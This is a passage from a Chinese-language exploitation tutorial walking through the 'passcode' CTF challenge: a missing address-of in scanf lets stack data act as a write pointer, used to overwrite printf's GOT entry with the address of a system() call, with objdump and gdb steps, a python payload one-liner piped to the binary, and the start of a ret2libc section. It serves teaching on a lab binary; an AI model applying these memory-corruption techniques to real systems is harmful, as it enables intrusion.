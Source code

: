 ```
    printf("Toddler's Secure Login System 1.0 beta.\n");

    welcome();
    login();

    // something after login...
    printf("Now I can safely trust you that you have credential :)\n");
    return 0;   
}

```

编译后的程序见附件,32位 linux

感觉锐锐_z的指点

1 分析程序可知,scanf时,没有用取地址符,会使用栈上的数据作为指针存放输入的数据,而我们第一次输入的数据就是在栈上,简单调试可知,在welcome()函数中的name的最后4字节会在login()函数中被用作地址指针

2 这样,我们就获得了修改任意地址数据的一次机会

3 分析程序可知如果我们用后面调用system()的地址覆盖了printf()在GOT中的指针,那么在第二次login()中第二次调用printf()时就会直接去调用system()

4 现在我们需要知道两个东西,一是GOT中printf()的地址,二是程序中调用system()的地址

```
objdump -R passcode

```

![enter image description here](http://drops.javaweb.org/uploads/images/6eb1f4e305b72044e673139cd4c8fa44af96b70f.jpg)

即可获得`printf()`在的地址`0804a000`这是攻击目标,

然后打开gdb,运行到调用system()的地方,为什么我们可以直接使用这个地址呢,因为linux下面的程序默认没有随机化code段,

![enter image description here](http://drops.javaweb.org/uploads/images/83f34ac92568a25f2a597ab1cc28f5798108d06d.jpg)

要写入的值即为`0x080485e3`

5 最后得到

```
python -c "print('a'*96+'\x00\xa0\x04\x08'+'\n'+'134514147\n')" | ./passcode

```

`134514147`即为`0x080485e3`

![enter image description here](http://drops.javaweb.org/uploads/images/88e3987845a1268ae45e9a3d882c271eef7bd667.jpg)

成功改变了程序流程,读出flag文件的内容,注意这里需要你新建一个名叫flag的文件

**_2.3 ret2libc技术_**

2.3.1 使用范围

当系统打开DEP时,我们不能自己直接在栈上放shellcode,就使用几乎每个linux系统都会自带的libc中的代码.
